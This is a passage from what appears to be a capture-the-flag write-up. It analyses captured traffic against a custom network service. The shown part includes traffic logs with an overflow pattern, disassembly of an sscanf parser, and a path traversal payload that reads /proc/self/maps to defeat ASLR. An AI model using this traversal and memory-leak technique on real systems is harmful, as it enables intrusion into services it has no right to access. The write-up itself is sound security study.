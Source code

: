 ```
3) Add medical units <count>
4) Add military units <count>
5) Add social units <count>
6) Add spy units <count>
7) Add shields units <count>
8) Add communication units <count>
9) Add transport units <count>
a) Add computer units <count>
*) Exit
====== FROM 192.168.79.67 ======
736f3551379c27d05df59d85738b54bbf06b6387:a -808
====== FROM 54.76.18.92 ======
Computer units added
====== FROM 54.76.18.92 ======
1) Get informations <name>
2) List units
3) Add medical units <count>
4) Add military units <count>
5) Add social units <count>
6) Add spy units <count>
7) Add shields units <count>
8) Add communication units <count>
9) Add transport units <count>
a) Add computer units <count>
*) Exit
====== FROM 192.168.79.67 ======
7eba53cc457d0025af33e998dd5e642016c7f41f_3Aba
8Ab9Ac0Ac1Ac2Ac3aaaa
[...]
```

### Traffic study

Let's explain a bit the traffic: when data is received by the binary, it is splitted according to a ':' character using sscanf():
```
.text:000017D1                 mov     eax, [ebp+cmd]
.text:000017D4                 mov     [esp+0Ch], eax
.text:000017D8                 lea     eax, [ebp+sha1_recvd]
.text:000017DB                 mov     [esp+8], eax
.text:000017DF                 lea     eax, (asc_27DE - 4000h)[ebx] ; "%[^:]:%[^\n]"
.text:000017E5                 mov     [esp+4], eax    ; format
.text:000017E9                 mov     eax, [ebp+s]
.text:000017EC                 mov     [esp], eax      ; s
.text:000017EF                 call    _sscanf
```

First part is a SHA1 hash, which should correspond to the SHA1 of the second part, which is a command number. There is also an obvious buffer overflow allowing to overwrite past a stack buffer (#VULN1).

Looking at the decrypted traffic, we first notice the exploitation of a second vulnerability (VULN#2) in the "Get Informations" command handler (number 1). This is a path traversal vulnerability, allowing the attacker to retrieve "/proc/self/maps" file to defeat ASLR by knowing where the binary and the libraries are mapped in memory.
```
====== FROM 192.168.79.67 ======
ad627891fd066f3a7c9b613b99c5c0f9c473e7f9:1 ../../../../../../../../proc/self/maps
====== FROM 54.76.18.92 ======
b7422000-b7424000 rw-p 00000000 00:00 0 
b7424000-b7427000 r-xp 00000000 ca:01 132831     /lib/i386-linux-gnu/libdl-2.19.so
b7427000-b7428000 r--p 00002000 ca:01 132831     /lib/i386-linux-gnu/libdl-2.19.so
b7428000-b7429000 rw-p 00003000 ca:01 132831     /lib/i386-linux-gnu/libdl-2.19.so
b7429000-b75d2000 r-xp 00000000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
b75d2000-b75d3000 ---p 001a9000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
```